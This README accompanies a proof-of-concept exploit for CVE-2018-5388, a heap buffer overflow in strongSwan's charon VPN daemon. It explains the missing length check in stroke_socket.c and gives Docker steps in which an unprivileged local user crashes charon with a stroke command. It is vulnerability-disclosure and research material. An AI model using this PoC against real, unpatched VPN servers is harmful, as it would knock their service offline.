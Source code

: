 # Buffer overflow in strongSwan VPN's charon server (CVE-2018-5388)

This directory contains a proof-of-concept exploit for a buffer overflow vulnerability in [strongSwan](https://www.strongswan.org/) VPN's [charon](https://wiki.strongswan.org/projects/strongswan/wiki/Charon) daemon. The vulnerability was discovered by Kevin Backhouse of the Semmle Security Research Team and has been assigned [CVE-2018-5388](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-5388). It was fixed in strongSwan version [5.6.3](https://www.strongswan.org/blog/2018/05/28/strongswan-5.6.3-released.html), which was released on 28 May 2018.

# The bug

The bug is in this code ([src/libcharon/plugins/stroke/stroke_socket.c:634](https://github.com/strongswan/strongswan/blob/3232cf68b98a944d3379ba141b742befb90b8f85/src/libcharon/plugins/stroke/stroke_socket.c#L634)):

```
if (!stream->read_all(stream, (char*)msg + sizeof(len), len - sizeof(len)))
```

The value of `len` is read from a socket (on [line 621](https://github.com/strongswan/strongswan/blob/3232cf68b98a944d3379ba141b742befb90b8f85/src/libcharon/plugins/stroke/stroke_socket.c#L621)), so it could be vulnerable to attack. The code does not check that `len >= sizeof(len)`, so the calculation of `len - sizeof(len)` could overflow negatively and produce a very large value (of type `size_t`). This will cause a heap buffer overflow in the call to `read_all`, because the size of the `msg` buffer is very small and `read_all` will keep reading data from the socket until the connection is closed (or it reads 2^64 bytes).

# Running the PoC

To demonstrate the PoC in a safe environment, we will run the vulnerable version of strongSwan in a [docker](https://www.docker.com/) container.

First, build the docker image:

```
docker build . -t strongswan
```

As you can see from the Dockerfile, we have installed strongSwan version 5.6.2. We have also created a user named "attacker". This user is a member of the `vpn` group, so that they can use the [stroke](https://wiki.strongswan.org/projects/strongswan/wiki/IpsecStroke) utility to query the [charon](https://wiki.strongswan.org/projects/strongswan/wiki/Charon) daemon. The attacker does not get other special privileges though. For example, they do not have superuser privileges.

Now start the container:

```
docker run --privileged -i -t strongswan
```

The `--privileged` flag is needed to start `ipsec` inside the container. Do this now:

```
ipsec start
```

Now switch to the attacker user account:

```
su - attacker
```

And run the attack:

```
./strongswan/src/stroke/.libs/stroke statusall
```

You will see an error message like this:

```
ipsec_starter[26]: charon has died -- restart scheduled (5sec)
```
The charon daemon crashed due to a buffer overflow which we triggered by sending it a malicious message.

